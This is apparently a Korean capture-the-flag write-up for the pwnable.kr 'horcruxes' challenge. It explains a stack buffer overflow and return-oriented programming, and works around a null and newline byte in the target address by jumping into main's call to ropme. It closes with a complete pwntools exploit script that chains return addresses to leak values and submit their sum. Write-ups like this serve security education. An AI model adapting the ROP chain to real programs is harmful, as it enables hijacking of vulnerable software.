

# horcruxes - 7 pt

## 문제

```text
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and ROP it!
author: jiwon choi

ssh horcruxes@pwnable.kr -p2222 (pw:guest)
```

## 풀이

눈물흘리면서 [핸드레이](https://gist.github.com/cxbt/597c5ef531256bd48a07abecec90fee4)를 해봤다. 허허허 그래도 다 할수 있어서 다행이야

아무튼 프로그램이 한번 돌때마다 호크룩스의 값이 모두 랜덤값으로 초기화, 총 7개의 호크룩스 총 합값을 구하면 문제를 풀수 있다. 이 문제의 문제(?)는 일단 한번 지나치면 프로그램이 끝난다. 버퍼 오버플로우가 발생하니까 그냥 실행 흐름만 `flag`를 표시하는 루틴으로 넘기면 되지 않느냐라고 할 수도 있지만, `ropme`의 함수 주소에 `0x00`과 `0x0A`, 해커가 싫어하는 `EOF`가 있기 때문에 넘길 수가 없다ㅋ (비슷한 [ASCII Armor](http://blog.naver.com/PostView.nhn?blogId=s2kiess&logNo=220028141641)라는 보호기법이 있다.)

제대로 각 호크룩스 값을 구하면서 총합을 맞춰서 `flag`를 얻어야 하는데 사실 ROP로 간단하게 해결이 된다. 그렇다고 `ROP` 페이로드가 복잡한 것도 아니다.

`ROP`는 `Return Oriented Programming`의 약자로, 해커가 한번 프로그램의 실행 흐름을 잡았을 때 `RET`을 이용해서 한도 끝도 없이 마음대로 프로그램을 가지고 농락할 수 있도록 하는 기법이다. 사실 이 문제에서는 가젯도 전혀 필요가 없어서 설명할게 별로 없다. 일련의 절차로 `ROP`를 설명하겠다.

1. `RET` 명령어를 만나면, `POP EIP`와 `JMP EIP`로 함수에 들어오기 전에 저장해 두었던 리턴 주소를 가져와 점프한다.
2. 일단 리턴 주소를 우리가 원하는 함수로 변조한다. 뭐 예를 들면 `grape`라는 함수에 들어갔다고 하자.
3. `grape`함수로 들어가서 뭔가 수행하면 결국엔 그 함수 끝부분에 있는 `RET`로 돌아오게 된다.
4. `grape`에서 `RET`를 수행하면 똑같이 스택에서 리턴주소를 꺼내 원래 실행 흐름으로 복귀할 것이다.
5. 해커는 이 리턴 주소를 또 변조해서 계속 실행흐름을 바꾸고, 계속 프로그램을 원하는 대로 가지고 논다.

간단해 보이지만, 이게 심화되면 진짜 프로그램에 있는 모든 걸 조작하고 마음대로 함수 호출하고 난리를 칠수 있다.

그림으로 보면 이렇게 표현할 수 있...다...



`horcruxes` 문제에서는 간단하게 리턴 주소부터 `A`, `B`, `C`, 등등 함수를 써서 각 호크룩스의 값을 알아온뒤 `ropme`함수에 가서 볼드모트를 물리치면 된다. 잠깐! 아까 말한것처럼 `ropme` 함수의 주소는 `0A`와 `00`을 포함해서 정상적으로 보낼 수 없다.

차라리 `main` 함수에서 `ropme` 함수 호출하는 부분으로 실행흐름을 바꾸자. 그러면 안걸리고 잘된다ㅎ (이 부분에서 2시간 막힌듯ㅋ)

```python
from pwn import *

r = remote("0.0.0.0", 9032)

print r.recvuntil("Select Menu:")
r.sendline("1")
print r.recvuntil("earned? : ")

payload = ""
payload += "A"*0x78
payload += p32(0x0809fe4b)  # A
payload += p32(0x0809fe6a)  # B
payload += p32(0x0809fe89)  # C
payload += p32(0x0809fea8)  # D
payload += p32(0x0809fec7)  # E
payload += p32(0x0809fee6)  # F
payload += p32(0x0809ff05)  # G
payload += p32(0x0809fffc)  # main+208, call <ropme>

r.sendline(payload)
d = r.recvuntil("Select Menu:")
print d

exp = 0
for e in d.split("+")[1:]:
    exp += int(e.split(")")[0],10)

r.sendline("1")
print r.recvuntil("earned? : ")
r.sendline(str(exp))
print r.recv()
```